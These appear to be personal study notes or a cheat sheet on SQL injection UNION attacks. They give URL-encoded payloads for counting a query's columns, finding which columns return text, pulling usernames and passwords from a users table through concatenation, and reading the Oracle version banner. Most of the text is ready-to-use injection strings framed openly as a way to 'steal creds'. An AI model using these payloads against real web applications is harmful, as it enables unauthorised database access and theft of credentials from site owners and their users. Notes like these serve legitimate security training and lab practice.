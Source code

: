 ### Union
SQL injection UNION attack, determining the number of columns returned by the query:  
`'+UNION+SELECT+NULL--`  
keep adding nulls until the page is returned, now we know how many columns there  
Now we take the attack further by checking if certain columns contain a string:
`'union%20select%20null%2c'STRING'%2cnull--`  
As a contrived example if we determine that the first two columns contain strings, we can steal creds:  
`'union%20select%20username%2cpassword%20from%20users--`  
If we enumerate that there are two columns and only the second one contains text, we can retrieving multiple values in a single column using string concatenation eg |null|username+passord|
`'+UNION+SELECT+NULL,username||'~'||password+FROM+users--`
For oracle, remember we need to select from a table, so after determining that the DB we are attacking has two columns with text:
`'union+select+banner,null+from+v$version--`
